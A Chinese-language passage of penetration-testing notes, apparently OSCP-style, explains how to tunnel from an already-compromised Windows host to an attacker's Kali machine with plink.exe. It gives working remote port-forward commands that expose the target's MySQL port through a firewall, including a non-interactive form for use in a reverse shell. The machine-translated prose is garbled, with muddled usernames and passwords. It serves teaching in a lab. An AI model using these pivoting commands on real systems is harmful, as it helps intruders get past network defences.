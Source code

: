 ## Windows端的端口转发与隧道

### plink-当目标是win时的远程端口转发

假设我们已经攻破一台win，枚举发现3306运行数据库服务

![image-20200601205043351](assets/11.端口重定向和隧道.assets/image-20200601205043351.png)

我们想扫描该数据库或与服务进行交互。但是，由于有防火墙，我们无法从我们的Kali机器直接与该服务进行交互。我们将plink.exe（基于Windows的命令行SSH客户端）（PuTTY项目的一部分）转移到目标设备，以克服此限制。程序语法类似于基于UNIX的ssh客户端：

我们可以使用plink.exe通过SSH（-ssh）以kali用户（-l kali）的身份通过密码（ilk）（-pw ilak）通过SSH（-ssh）连接到我们的Kali机器（-l wali），以创建远程端口转发（使用以下命令将端口1234（10.11.0.4:1234）的-R）连接到Windows目标（127.0.0.1:3306）上的MySQL端口

```powershell
plink.exe -ssh -l 用户名 -pw 密码 -R kali-ip:kali的端口:127.0.0.1:3306 kali的ip
plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
```

但是，由于这很可能不适用于典型的反向外壳程序中的交互级别，因此我们应使用cmd.exe / c echo y命令将答案的答案传递给命令。然后，从我们的反向外壳中，此命令将成功建立正向的远程端口，而无需任何交互

```powershell
cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
```

![image-20200601205549389](assets/11.端口重定向和隧道.assets/image-20200601205549389.png)
